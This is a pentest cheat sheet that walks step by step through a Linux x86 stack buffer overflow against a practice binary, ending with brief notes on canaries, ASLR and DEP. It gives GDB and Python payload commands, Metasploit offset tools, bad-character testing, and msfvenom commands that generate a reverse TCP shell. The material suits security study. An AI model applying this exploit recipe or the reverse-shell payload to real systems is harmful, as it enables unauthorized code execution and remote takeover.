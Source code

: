 # Buffer Overflow

{% hint style="info" %}
Buffer overflow is an **anomaly** that occurs when **software writing data to a buffer overflows the buffer’s capacity**, resulting in **adjacent memory locations being overwritten**.

_In other words, too much information is being passed into a container that does not have enough space, and that information ends up replacing data in adjacent containers._

Buffer overflows can be exploited by attackers with a goal of modifying a computer’s memory in order to undermine or take control of program execution.
{% endhint %}

![BOF](<../.gitbook/assets/image (63).png>)

### Check file type

```bash
file bow32 | tr "," "\n"
```

***

### How to attack ?

![](<../.gitbook/assets/image (39).png>)

#### 1 : Testing the Crash

![](<../.gitbook/assets/image (114).png>)

```bash
#Python command to BOF
run $(python -c "print '\x55' * 1200")

#To confirm the exact number of Bytes needed 
info registers eip
```

#### 2 : Finding the EIP Offset

![](<../.gitbook/assets/image (13).png>)

```bash
# Generate a more precise pattern
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt

# Run the pattern using python
run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 

# Locate the exact memory address where the BOF occurs
info registers eip

# Use the memory address to calculate the offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
```

![](<../.gitbook/assets/image (146).png>)

#### 3 : Finding Shellcode Space : General

```bash
# Calculate the required padding for the payload
run $(python -c "print '\x55' * 1036 + '\x66' * 4")
```

#### 4 : First Stage Payload

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c
```

#### 5 : Finding Shellcode Space : Garbage + NOPs + Payload + EIP

![](<../.gitbook/assets/image (2).png>)

```bash
    # Pre-final padding (Garbage - NOPs - Payload - EIP)
    Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
    NOPs = "\x90" * 100
    Shellcode = "\x44" * 150
    EIP = "\x66" * 4'
```

```bash
# Pre-final BOF Exploit
# Must check for Bad Chars before executing
run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
```

![](<../.gitbook/assets/image (116).png>)

#### 6 : Testing for Bad Chars

⚠️ **FACULTATIVE**, BUT... MUST CHECK WHEN USING **ONLINE SHELLCODES** ⚠️

```bash
    # Most Bad Chars
    \x00 - Null Byte
    \x0A - Line Feed
    \x0D - Carriage Return
    \xFF - Form Feed
    \x09
    \x20
```

### How to find bad Chars

```bash
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

```bash
    ## Padding to check Bad Chars
    Buffer = "\x55" * (1040 - 256 - 4) = 780
    CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
    EIP = "\x66" * 4
```

```bash
# Prep for testing Bad Chars
disas main
break bowfunc 
```

```bash
# Run Python script
run $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
```

```bash
# Check for memory in break for \x00 (Must follow the $CHAR pattern)
x/2000xb $esp+500
# Check image below
```

![](<../.gitbook/assets/image (18).png>)

#### 1 : Final Stage Payload

```bash
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode
```

#### 2 : Finding JMP EIP

```bash
   # Enter the payload
   # Next focus on the placement of EIP (return address)
   Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
   NOPs = "\x90" * 124
   Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
   EIP = "\x66" * 4'
```

```bash
# Python command to locate EIP
run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')
```

![](<../.gitbook/assets/image (9).png>)

⚡ **Choose an address to which we refer the EIP and which reads and executes one byte after the other starting at this address.**

![](<../.gitbook/assets/image (40).png>)

#### 🚨 **Execute the Payload | Rain Hell on 'em** 🚨

```bash
   # 🚨 NOTE!! Payload must be run outside GDB, Duhh!! 🚨
   # Final Padding
   Buffer = "\x55" * (1040 - 124 - 95 - 4) = 841
   NOPs = "\x90" * 124
   Shellcode = "\xda\xca\xba\xe4\x11\xd4...<SNIP>...\x5a\x22\xa2"
   EIP = "\x4c\xd6\xff\xff"
```

### GDB Syntax

```bash
set disassembly-flavor intel

disassemble main

disas bowfunc

info registers 

info registers eip
i r $eip
```

![](<../.gitbook/assets/image (36).png>)

![](<../.gitbook/assets/image (81).png>)

![](<../.gitbook/assets/image (74).png>)

### How to protect ?

* **Canaries** The canaries are known values written to the stack between buffer and control data to detect buffer overflows. The principle is that in case of a buffer overflow, the canary would be overwritten first and that the operating system checks during runtime that the canary is present and unaltered.
* **Address Space Layout Randomization (ASLR)** Address Space Layout Randomization (ASLR) is a security mechanism against buffer overflows. It makes some types of attacks more difficult by making it difficult to find target addresses in memory. The operating system uses ASLR to hide the relevant memory addresses from us. So the addresses need to be guessed, where a wrong address most likely causes a crash of the program, and accordingly, only one attempt exists.
* **Data Execution Prevention (DEP)** DEP is a security feature available in Windows XP, and later with Service Pack 2 (SP2) and above, programs are monitored during execution to ensure that they access memory areas cleanly. DEP terminates the program if a program attempts to call or access the program code in an unauthorized manner.
